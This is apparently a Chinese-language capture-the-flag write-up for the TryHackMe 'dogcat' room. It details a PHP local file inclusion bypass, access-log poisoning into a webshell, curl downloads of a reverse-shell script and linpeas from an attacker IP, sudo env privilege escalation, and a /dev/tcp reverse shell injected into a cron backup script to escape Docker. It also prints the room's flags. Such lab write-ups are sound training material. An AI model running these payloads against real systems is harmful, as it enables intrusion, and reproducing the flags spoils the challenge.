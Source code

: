 # Dogcat Writeup
> URL : https://tryhackme.com/room/dogcat

IP: 10.10.221.153
第一次打 Medium 的題目

## Recon
- 先用老梗 `nmap -A 10.10.221.153`
	- 發現只有開 80 跟 22
- dirsearch
	- 發現基本上都沒有東西 QQ

## 瀏覽器亂逛
- http://10.10.221.153/
	- ![](https://i.imgur.com/60cFGhz.png)
	- 會發現可以選狗勾或貓貓
		- 選貓貓會出現
			- ![](https://i.imgur.com/JGEBCKB.png)
			- 網址是 `http://10.10.221.153/?view=cat`
		- 選狗勾
			- 網址是 `http://10.10.221.153/?view=dog`
			- ~~不要問我為什麼不幫狗勾截圖~~

- 嘗試 LFI
	- 這邊可以套一個 php 的 LFI 老梗 PHP Wrapper
		- `http://10.10.221.153/?view=php://filter/convert.base64-encode/resource=cat`
		- ![](https://i.imgur.com/IaYSGCc.png)
		- 可以發現成功噴出了一堆 base64
			- `PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K`
			- 解碼後發現是 `<img src="cats/<?php echo rand(1, 10); ?>.jpg" />`
			- 而同理解碼狗勾是 `<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />`

- 繞狗勾
	- 假設我們想要看 `/etc/passwd`
		- `http://10.10.221.153/?view=php://filter/convert.base64-encode/resource=/etc/passwd`
		- ![](https://i.imgur.com/V6btRdB.png)
		- 他會說 ` Sorry, only dogs or cats are allowed.`
	- 而如果我們輸入 `/etc/passwddog`
		- 他會回傳 `Here you go!` 但是噴一些錯誤
		- ![](https://i.imgur.com/BIxMS50.png)
		- 因為找不到檔案，所以錯誤很合理
	- 那我們嘗試亂寫奇怪的路徑看看
		- `http://10.10.221.153/?view=php://filter/convert.base64-encode/resource=./dog/../dog`
		- 會發現可以成功開啟狗勾
	
- 嘗試觀察 `index.php` 內容 這邊只截錄重點
```=php
<?php
	function containsStr($str, $substr) {
		return strpos($str, $substr) !== false;
	}
	$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
	if(isset($_GET['view'])) {
		if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
			echo 'Here you go!';
			include $_GET['view'] . $ext;
		} else {
			echo 'Sorry, only dogs or cats are allowed.';
		}
	}
?>
```
- 可以發現參數 `ext` 很重要
	- 我們可以透過給予 `ext` 空白繞過副檔名

- 任意 LFI
	- `http://10.10.221.153/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../index.php`
	- `http://10.10.221.153/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../../../../../../../etc/passwd`
	- `http://10.10.221.153/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../../../../../../../etc/apache2/apache2.conf`
	- `http://10.10.221.153/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../../../../../../../var/log/apache2/access.log`
		- 可以發現 `access.log` 可讀
			- ![](https://i.imgur.com/ll0cYjt.png)
			- 可以透過 `access.log` 來做到 LFI 2 RCE
- LFI 2 RCE
	- 如果在瀏覽器輸入這個
		- `10.10.221.153?A=<?php phpinfo(); ?</php>`
	- 在 log 上會變成這樣
		- `/?A=%3C?php%20phpinfo();%20?%3C/php%3E` 
		- 主要是因為 HTTP 會做到 URL Encode

	- 所以可以用 nc
		- `nc 10.10.221.153 80`
		- `GET /MEOW?<?php phpinfo(); ?>`
		- ![](https://i.imgur.com/JXxg8vP.png)
			- 成功!
- 寫入 webshell
	- `nc 10.10.221.153 80`
	- `GET /MEOW?<?php system($_GET[A]); ?>`
		- ![](https://i.imgur.com/o2cJEwA.png)
		- `http://10.10.221.153/?ext=&view=./dog/../../../../../../../var/log/apache2/access.log&A=curl%20-o%20/tmp/s%20http://10.13.21.55:8000/s`
			- 載入 reverse shell
			- 在這邊發現這台電腦沒有 wget，所以用 curl
		- `http://10.10.221.153/?ext=&view=./dog/../../../../../../../var/log/apache2/access.log&A=bash%20/tmp/s`
			- 執行 reverse shell
			- 本地 `nc -vlk 7877`
			- 就可以順利接到 Shell ㄌ!
## Shell
- 在`/var/www/flag.php`
	- 可以找到 flag1
	- ![](https://i.imgur.com/1HiNozU.png)
- 在 `/var/www/flag.php`
	- 可以找到 flag2
	- ![](https://i.imgur.com/rYiIpeP.png)
- 嘗試提權
	- 輸入 `sudo -l` 可以發現我們可以用 root 來 run `/usr/bin/env`
	- ![](https://i.imgur.com/ELIv9bq.png)
		- 這邊有兩種用法
			- `/usr/bin/env ls /root`
				- 就可以用 roo 來 `ls /root`
			- 也可以參考 gtfobins
				- 有 suid 的 env
				- `env /usr/bin/sh -p`
	- 取得 root flag (flag3)
		- `THM{D1ff3r3nt_3nv1ronments_874112}`
## Docker 提權
- 不管了，先老梗的 linpeas 下去
	- `curl -o linpeas.sh 10.13.21.55:8000/linpeas.sh`
	- `/usr/bin/env /tmp/linpeas.sh`
	- ![](https://i.imgur.com/PlO1XxZ.png)
		- 可以發現根目錄有 `/.dockerenv`
		- 確定目前我們在docker中
- 發現備份檔案	
	- ![](https://i.imgur.com/DXOTRMs.png)
	- 發現有 `backup.tar` 跟 `backup.sh`
	- 試著把檔案複製到 `/var/www/html` 來準備下載
		- ![](https://i.imgur.com/gZ2rLz8.png)
- 下載並觀察備份檔案
	- `wget http://10.10.221.153/backup.tar`
	- `tar xf backup.tar`
- 觀察 Docker File
	- ![](https://i.imgur.com/M4K7rpx.png)
		- 發現沒什麼特別
		- 但也發現為什麼 access log 一直有噴一個 `127.0.0.1` 的 curl
- 觀察 `launch.sh` 
	- ![](https://i.imgur.com/U0Sdayw.png)
	- 發現重點!!
	- 他把 `/opt/backup` 掛載到本地的`/root/container/backup` 
		- 所以我在 `/opt/backup` 寫資料會跑到本地端
			- 那問題就只剩下，我們怎麼讓本地執行
- 觀察 `backup.sh`
	- 發現裡面就 `tar cf /root/container/backup/backup.tar /root/container`
	- 但......本地端是怎麼執行的ㄋ??
	- 突然發現上面的 `backup.tar` 就剛好是當前時間! 
		- 所以可以推測說在遠端有一個 cron job
- 寫入 `backup.sh`
	- 戳一個 reverse shell
		- `echo "bash -c 'bash -i >& /dev/tcp/10.13.21.55/7878 0>&1'" >> backup.sh`
		- ![](https://i.imgur.com/i6PxwrU.png)
	- 本地端開 `nc -vlk 7878`
		- ![](https://i.imgur.com/J26jyNB.png)
	- 拿到本地 root shell! (flag4)
		- `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`
